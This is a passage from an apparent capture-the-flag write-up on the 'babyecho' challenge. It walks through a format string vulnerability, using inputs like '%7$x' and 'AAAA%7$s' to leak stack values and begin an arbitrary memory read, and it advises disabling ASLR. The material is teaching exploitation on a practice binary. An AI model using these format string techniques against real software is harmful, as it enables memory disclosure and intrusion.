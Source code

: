 160:0x28
161:0x3
163:0x38
165:0x5b
167:0x6e
169:0x77
171:0x7c
175:0x80ea540
...
</pre>

If you run it a second time and any values change, be sure you <a href='https://stackoverflow.com/questions/5194666/disable-randomization-of-memory-addresses'>turn off ASLR</a>. It's totally possible to write an exploit for this challenge that assumes ASLR is on, but it's easier to explain one thing at a time. :)

<h2>Arbitrary memory read</h2>

The values at offset 7 and 8 are actually interesting.. let's take a quick look at them:

<pre>
$ <span class='in'>./babyecho</span>
Reading 13 bytes
<span class='in'>%7$x</span>
78243725
</pre>

What's going on here?

It's printing the hex number 0x78243725, which is the 7th thing on the stack. Since it's <a href="https://en.wikipedia.org/wiki/Endianness">little endian</a>, that's actually "25 37 24 78" in memory, which, if you know your ASCII, is "%7$x". That looks a bit familiar, eh? The first 4 bytes of the string?

Let's try making the first 4 bytes of the string something more recognizable:

<pre>
$ <span class='in'>./babyecho</span>
Reading 13 bytes
<span class='in'>AAAA -&gt; %7$x</span>
AAAA -&gt; 41414141
Reading 13 bytes
<span class='in'>ABCD -&gt; %7$x</span>
ABCD -&gt; 44434241
</pre>

So it's printing the first 4 bytes of <em>itself</em>! That's extremely important, because if we now change %...x to %...s, we get:

<pre>
$ <span class='in'>ulimit -c unlimited</span>
$ <span class='in'>echo -e 'AAAA%7$s' | ./babyecho</span>

Reading 13 bytes
Segmentation fault (core dumped)
</pre>
